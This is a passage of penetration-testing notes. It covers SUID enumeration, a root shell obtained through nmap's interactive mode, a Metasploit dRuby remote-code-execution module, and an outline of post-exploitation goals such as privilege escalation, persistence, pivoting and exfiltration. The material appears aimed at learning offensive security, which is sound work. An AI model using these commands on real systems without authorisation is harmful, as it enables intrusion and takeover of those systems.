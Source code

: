``` 
find / -perm -4000 2>/dev/null
	/usr/bin/nmap
	nmap --interactive
	!sh
	// we have root
```

### dRuby RMI Exploit
- typically on port TCP 8787

```
use exploit/linux/misc/drb_remote_codeexec
set options
```

# Post-Exploitation

Goals:
	- Perform additional information gathering and enumeration of any systems  from a local perspective (shell, console, etc.)
	- Elevate our privileges
	- Maintain a foothold
	- Pivot to other systems 
	- Utilize methods to exfiltrate data

Categories:
	- Additional Information Gathering
	- Privilege Escalation
	- Lateral Movement
	- Data Exfiltration
	- Maintaining Access

## PrivEesc

* System and Network Information
* User Information
* Privileged Access / Cleartext Credentials
* Services
* Jobs / Tasks
* Installed Software Version Information


### System and Network Information

- Hostname
	Does the hostname reveal anything about the systems function?
	Can we leverage that information to gain access to function-related information?

```
hostname
```
- Kernel Version
	Is the kernel vulnerable to any exploits?
